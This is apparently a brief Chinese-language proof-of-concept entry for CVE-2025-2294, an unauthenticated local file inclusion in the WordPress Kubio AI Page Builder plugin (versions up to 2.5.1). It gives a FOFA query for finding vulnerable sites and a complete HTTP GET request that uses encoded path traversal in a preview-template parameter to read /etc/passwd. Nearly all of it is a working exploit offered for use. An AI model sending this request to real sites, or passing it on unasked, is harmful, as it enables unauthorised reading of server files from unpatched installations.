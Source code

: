 FOFA

```
"wp-content/plugins/kubio"
```

影响版本

```
Kubio AI Page Builder <= 2.5.1
```

POC

```
GET /?__kubio-site-edit-iframe-preview=true&__kubio-site-edit-iframe-classic-template=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
```

![图片](WordPress%E4%B8%AD%E7%9A%84Kubio%20AI%20Page%20Builder%E6%8F%92%E4%BB%B6%E6%9C%AA%E7%BB%8F%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%9A%84%E6%9C%AC%E5%9C%B0%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABCVE-2025-2294.assets/640.png)